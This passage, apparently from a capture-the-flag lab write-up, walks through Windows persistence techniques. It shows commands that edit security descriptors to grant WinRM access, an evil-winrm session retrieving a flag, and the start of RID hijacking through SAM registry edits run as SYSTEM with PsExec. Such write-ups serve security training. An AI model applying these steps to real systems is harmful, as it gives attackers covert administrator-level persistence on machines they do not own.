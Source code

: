 convert the .inf file into a .sdb file which is then used to load the configuration back into the system:
```bash
secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

In Powershell:
```bash
Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI
```

Now we can add thmuser2 to the WinRM's security descriptor:

<img width="357" height="444" alt="image" src="https://github.com/user-attachments/assets/15ed2e52-360f-4c73-b155-5dc047bdcbd9" />

We now can winRM with our machine:
```bash
root@ip-10-201-63-127:~# evil-winrm -i 10.201.39.145 -u thmuser2 -p Password321
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\thmuser2\Documents> C:\flags\flag2.exe
THM{REDACTED!!!}
```
Q2. 
<img width="1395" height="123" alt="Screenshot 2025-10-21 at 11 21 23 in the morning" src="https://github.com/user-attachments/assets/001de42c-75a7-49ae-b9c4-c4578e9dbcd0" />

### RID Hijacking

We can change registry values to make the operating system think you are an administrator.
In any Windows system, the default Administrator account is assigned the RID = 500, and regular users usually have RID >= 1000.

Assign RID 500 to thmuser3.
Run Regedit as SYSTEM, we will use psexec, available in C:\tools\pstools in your machine:
```bash
C:\tools\pstools> PsExec64.exe -i -s regedit
```
This will open a registry editor and go to ```HKLM\SAM\SAM\Domains\Account\Users\``` 

Since we want to modify thmuser3, we need to search for a key with its RID in hex (1010 = 0x3F2). 

* TO GET RID ``` wmic useraccount get name,sid ```

<img width="840" height="526" alt="image" src="https://github.com/user-attachments/assets/76a1a302-e2da-4e4a-948a-8647b342968d" />

